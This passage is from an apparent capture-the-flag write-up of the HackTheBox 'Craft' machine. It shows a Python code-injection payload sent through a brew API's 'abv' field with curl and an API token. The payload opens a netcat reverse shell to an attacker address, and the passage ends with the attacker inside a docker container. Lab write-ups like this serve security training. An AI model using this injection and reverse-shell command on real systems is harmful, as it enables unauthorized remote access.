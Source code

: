 ⇒ Lets create new brew :

→ Payload :

`__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.45 4444 >/tmp/f')`=

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Craft%20Box%20907b81d306cb4c76a51b1a523af97fab/Untitled%209.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Craft%20Box%20907b81d306cb4c76a51b1a523af97fab/Untitled%209.png)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Craft%20Box%20907b81d306cb4c76a51b1a523af97fab/Untitled%2010.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Craft%20Box%20907b81d306cb4c76a51b1a523af97fab/Untitled%2010.png)

→ Now all we have to do is add our token to this curl command and run it :

`curl -k -X POST "[https://api.craft.htb/api/brew/](https://api.craft.htb/api/brew/)" -H 'X-Craft-API-Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZGluZXNoIiwiZXhwIjoxNTk3OTQzNzY1fQ.zJbnFPZlJJCyV9zcVuvZ8j5FbeWC_ZWxPNtIMP_lWew' -H "accept: application/json" -H "Content-Type: application/json" -d "{ \"id\": 0, \"brewer\": \"string\", \"name\": \"string\", \"style\": \"string\", \"abv\": \"__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.45 4444 >/tmp/f') \"}"`

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Craft%20Box%20907b81d306cb4c76a51b1a523af97fab/Untitled%2011.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Craft%20Box%20907b81d306cb4c76a51b1a523af97fab/Untitled%2011.png)

→ We are not root yet we're in a docker container.

⇒ Enumerating files. Inspecting dbtest.py  :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Craft%20Box%20907b81d306cb4c76a51b1a523af97fab/Untitled%2012.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Craft%20Box%20907b81d306cb4c76a51b1a523af97fab/Untitled%2012.png)
